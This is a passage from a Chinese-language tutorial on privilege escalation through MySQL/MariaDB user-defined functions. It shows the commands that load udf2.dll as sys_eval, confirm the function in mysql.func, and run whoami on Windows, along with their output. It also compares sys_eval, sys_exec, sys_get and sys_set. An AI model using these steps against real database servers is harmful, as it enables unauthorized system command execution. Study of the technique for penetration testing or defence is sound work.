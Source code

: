 成功返回文件十六进制编码，文件正确写入。

5、构造自定义函数并调用命令，构造函数命令如下：

```mysql
MariaDB [mysql]> create function sys_eval returns string soname 'udf2.dll';
Query OK, 0 rows affected (0.213 sec)
```

此处`sys_eval`函数可自定义，然后查看MySQL函数是否有新增函数，命令如下：

```mysql
MariaDB [mysql]> select * from mysql.func;
+----------+-----+----------+----------+
| name     | ret | dl       | type     |
+----------+-----+----------+----------+
| sys_eval |   0 | udf2.dll | function |
+----------+-----+----------+----------+
1 row in set (0.184 sec)
```

至此成功使用自定义函数执行系统命令了，如果在 Windows 系统下的话应该就是最高权限了。

```mysql
MariaDB [mysql]> select sys_eval('whoami');
+------------------------------+
| sys_eval('whoami')           |
+------------------------------+
| nt authority\network service |
+------------------------------+
1 row in set (0.171 sec)
```

> sys_eval、sys_exec、sys_set、sys_get输出结果区别：
>
> - sys_get：获取特定环境变量的值
> - sys_set：设置环境变量的值。此函数接受一个名称/值对，然后将其定义为环境变量。使用 sys_get 检索此类变量的值
> - sys_exec：执行其命令字符串参数并返回其退出状态。
> - sys_eval：执行其命令字符串参数并返回其标准输出。
>
> 以Windows平台下的sys_eval与sys_exec函数执行结果如下：
>
> ```mysql
> MariaDB [mysql]> select sys_eval('whoami');
> +------------------------------+
> | sys_eval('whoami')           |
> +------------------------------+
> | nt authority\network service |
> +------------------------------+
> 1 row in set (0.176 sec)
> 
> MariaDB [mysql]> select sys_exec('whoami');
> +------------------------------+
> | sys_exec('whoami')           |
> +------------------------------+
> |                         NULL |
> +------------------------------+
> 1 row in set (0.102 sec)
> ```

6、删除自定义函数

```mysql
drop function sys_eval;
```

